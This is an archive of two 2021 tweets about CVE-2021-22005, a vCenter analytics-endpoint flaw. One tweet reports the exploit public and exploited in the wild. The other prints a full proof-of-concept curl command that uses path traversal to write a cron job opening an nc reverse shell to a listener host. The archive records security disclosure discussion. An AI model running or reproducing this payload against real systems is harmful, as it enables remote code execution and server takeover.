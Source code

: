 # wdormann
**https://twitter.com/wdormann/status/1442674943494397956 _at 2021-09-28 02:18:04_**
<blockquote>
The exploit for CVE-2021-22005 is now fully public: https://t.co/4aX7lRkHeY
The PoC at the beginning of this thread is definitely something completely different, whatever the CVE IS, and doesn't require CEIP to be enabled.
Unclear if THAT one is being used in the wild now.
</blockquote>

* https://twitter.com/wvuuuuuuuuuuuuu/status/1442634215330390020

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1442634215330390020 _at 2021-09-27 23:36:14_**
<blockquote>
CVE-2021-22005: Exploitation in the wild confirmed. Unredacted RCE PoC against CEIP below.

curl -kv "https://172.16.57.2/analytics/telemetry/ph/api/hyper/send?_c=&amp;_i=/../../../../../../etc/cron.d/$RANDOM" -H Content-Type: -d "* * * * * root nc -e /bin/sh 172.16.57.1 4444" https://t.co/bwjMA21ifA
</blockquote>


<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+FAVDZdEXoAImTJ1.png" alt="http://pbs.twimg.com/media/FAVDZdEXoAImTJ1.png"></td>